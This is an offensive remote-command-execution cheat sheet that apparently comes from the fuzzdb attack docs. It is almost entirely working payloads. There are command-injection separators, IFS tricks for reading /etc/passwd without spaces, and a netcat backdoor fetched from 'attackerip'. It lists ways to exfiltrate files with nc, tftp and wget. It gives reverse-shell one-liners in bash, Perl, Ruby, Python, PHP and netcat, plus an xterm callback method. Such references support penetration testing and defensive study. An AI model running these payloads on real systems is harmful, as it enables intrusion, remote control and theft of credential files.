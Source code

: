 Remote Command Exec Cheatsheet

**Executing Commands**

Various ways of separating Commands:<br>
``` blah;blah2 ```

``` blah ^ blah 2```

```blah && blah2```

```FAIL || X```

``` blah%0Dblah2%0Dblah3 ```

``` `blah` ```

``` `blah & blah2` ```

**Shell commands without spaces**

Using Internal Field Separator (IFS):<br>
Test for cmd injection without spaces:<br>
``` sleep${IFS:0:1}20 ```<br>

Example IFS netcat backdoor without spaces:<br>
``` {wget,http://attackerip/nc} ```<br>
``` {chmod,+x,./nc} ```<br>
``` {./nc,-l,-p,1234,-e,/bin/bash} ```<br>

$IFS shell variable:<br>
``` cat$IFS/etc/passwd ```<br>
increment the first +1 to retreive the entire file, line by line<br>
``` cat$IFS/etc/passwd|tail$IFS-n+1|head$IFS-n+1 ```

Shell Variables:<br>
``` CMD=$'cat\x20/etc/passwd';$CMD ```

shell variable, increment through file one line at a time: <br>
increment the first +1 to retreive the entire file, line by line<br>
``` SP=$'\x20';cat$SP/etc/passwd|tail$SP-n+1|head$SP-n+1 ```

**Exfiltrating Files / Data**

FTP <br>
Make a new text file, and echo and then redirect to FTP

NC <br>
``` 'nc -e /bin/sh' ```

NC <br>
``` 'echo /etc/passwd  | nc host port' ```

TFTP <br>
``` 'echo put /etc/passwd | tftp host' ```

WGET: <br>
``` 'wget --post-file /etc/passwd' ```

**One-Liner Reverse Shells**

On the listener <br>
``` $ nc -l -p 1234 -vvv' ```

On the remote host...<br>
<br>
Bash:<br>
``` $ bash -i >& /dev/tcp/attackerip/1234 0>&1 ```

``` $ exec 5<>/dev/tcp/attackerip/1234 ```<br>
``` $ cat <&5 | while read line; do $line 2>&5 >&5; done ```

Perl<br>
```$ perl -e 'use Socket;$i="attackerip";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' ```

Perl for Windows target
``` perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;' ```

Ruby<br>
``` $ ruby -rsocket -e'f=TCPSocket.open("attackerip",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' ```

Python<br>
``` $ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attackerip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' ```

PHP<br>
``` $ php -r '$sock=fsockopen("attackerip",1234);exec("/bin/sh -i <&3 >&3 2>&3");' ```
(Assumes TCP uses file descriptor 3. It it doesn't work, try 4,5, or 6)

Netcat<br>
``` $ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attackerip 1234 >/tmp/f ```

Bash<br>
``` bash -i >& /dev/tcp/attackerip/1234 0>&1 ```


**XTERM**<br>
 To catch incoming xterm, start an open X Server on your system (:1 - which listens on TCP port 6001) with [Xnest](http://www.xfree86.org/4.4.0/Xnest.1.html):<br>
<br>
``` Xnest :1 ```
<br>
Authorize the target IP's connection to you:<br>
<br>
Run this OUTSIDE the Xnest:<br>
``` xterm -display 127.0.0.1:1 ``` 

Run this INSIDE the spawned xterm on the open X Server<br>
``` xhost +targetip ```

Then on the target, assuming that xterm is installed, connect back to the open X Server on your system:<br>
``` xterm -display attackerip:1 ```
<br>or<br>
``` DISPLAY=attackerip:0 xterm ```<br>
It will try to connect back to you, attackerip, on TCP port 6001.<br>

If the xterm path is not within the PATH environment variable, you need to specify its filepath. Solaris path example:<br>
``` /usr/openwin/bin/xterm -display attackerip:1 ```



<br>More docs: [/docs/attack-docs/remote-cmd-exfiltration/](https://github.com/fuzzdb-project/fuzzdb/tree/master/docs/attack-docs/remote-cmd-exfiltration)<br>
